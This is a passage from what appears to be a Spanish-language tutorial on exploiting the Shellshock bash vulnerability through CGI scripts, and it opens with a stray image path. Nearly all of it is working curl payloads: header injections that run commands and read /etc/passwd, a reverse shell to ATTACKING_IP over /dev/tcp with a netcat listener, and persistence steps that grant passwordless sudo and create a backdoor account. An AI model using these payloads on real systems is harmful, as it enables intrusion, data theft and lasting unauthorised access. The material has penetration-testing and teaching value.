 ### Test para servicios web:

```bash
# Usar curl para testear CGI
curl -H "User-Agent: () { :; }; echo; echo; echo vulnerable" \
     http://target.com/cgi-bin/script.sh

# Con cabecera personalizada
curl -H "Custom: () { :; }; /bin/cat /etc/passwd" \
     http://target.com/cgi-bin/vulnerable.cgi
```

---

## 💻 Explotación Práctica

### Ejemplo 1: Explotación básica via CGI

```bash
# Obtener información del sistema
curl -A "() { :; }; echo; echo; /bin/uname -a" \
     http://target.com/cgi-bin/script.sh

# Listar archivos del directorio
curl -A "() { :; }; echo; echo; /bin/ls -la" \
     http://target.com/cgi-bin/script.sh

# Leer archivos sensibles
curl -A "() { :; }; echo; echo; /bin/cat /etc/passwd" \
     http://target.com/cgi-bin/script.sh
```

### Ejemplo 2: Reverse Shell

```bash
# Establecer reverse shell usando netcat
curl -A "() { :; }; echo; echo; /bin/bash -i >& /dev/tcp/ATTACKING_IP/4444 0>&1" \
     http://target.com/cgi-bin/vulnerable.cgi

# En el atacante (listener)
nc -lvp 4444
```

### Ejemplo 3: Persistencia

```bash
# Crear un backdoor
curl -A "() { :; }; echo; echo; echo 'www-data ALL=(ALL) NOPASSWD: ALL' >> /etc/sudoers" \
     http://target.com/cgi-bin/script.sh

# Crear usuario backdoor
curl -A "() { :; }; echo; echo; useradd -m -p \$(openssl passwd -1 password123) backdoor" \
     http://target.com/cgi-bin/script.sh
```

---